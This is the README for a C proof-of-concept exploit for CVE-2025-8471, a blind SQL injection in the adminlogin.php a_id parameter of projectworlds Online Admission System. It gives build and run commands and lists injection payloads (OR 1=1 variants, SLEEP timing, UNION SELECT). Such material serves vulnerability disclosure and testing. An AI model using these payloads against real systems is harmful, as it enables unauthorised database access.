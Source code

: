#  CVE-2025-8471 SQL Injection PoC

**Author**: Byte Reaper  
**CVE**: CVE-2025-8471  
**Vulnerability**: SQL Injection in “projectworlds Online Admission System v1.0”  
**Description**:  
A blind SQL injection exists in `adminlogin.php?a_id=`. This PoC sends a series of GET requests with various payloads—both two-stage (`INSERT … UNION SELECT …`, `SLEEP()`, `SELECT code …`) and “deep injection” strings—to detect and enumerate the issue via response-length differences.

---

## Requirements

- GCC (or any C compiler)
- libcurl development headers
- argparse.h && argparse.c
- POSIX-compatible system (Linux, macOS)

---

## Installation
1. Ensure you have `libcurl` and `argparse` installed (e.g. on Debian/Ubuntu: `sudo apt-get install libcurl4-openssl-dev`).
2. Compile:

   ```
   gcc exploit.c argparse.c -o exploit -lcurl
   
   ./exploit -u <TARGET_BASE_URL> [-c cookies.txt] [-v]

   -u, --url — Base URL of the target, e.g. http://vulnsite.com

   -c, --cookies — (Optional) path to a cookies file to maintain session

   -v, --verbose — Enable verbose libcurl output and full response dumps
   ```
## Example:


./exploit -u http://<TARGET> -v


This will:

Send a normal request to /adminlogin.php and record its length.

Iterate over two-stage and deep payload lists, injecting each one at ?a_id=….

Compare each injection’s response length against the baseline.

Log every payload, HTTP status (if ≥2xx), and observed length into result.log.

Payloads Tested :
Two-Stage

INSERT INTO stages (id,code) VALUES (3, 'UNION SELECT NULL --');

SELECT SLEEP(2);

SELECT code FROM stages WHERE id = 3;

Deep Injection

'/**/OR/**/1=1--, '/**/OR/**/'a'='a'--, …

Includes boolean, time-based, union, substring, order-by, like, exists, comment-style injections.

All payloads are URL-encoded via curl_easy_escape before delivery.

## References :
   - NVD : https://nvd.nist.gov/vuln/detail/CVE-2025-8471
   - CVE : https://www.cve.org/CVERecord?id=CVE-2025-8471
## License :

MIT License


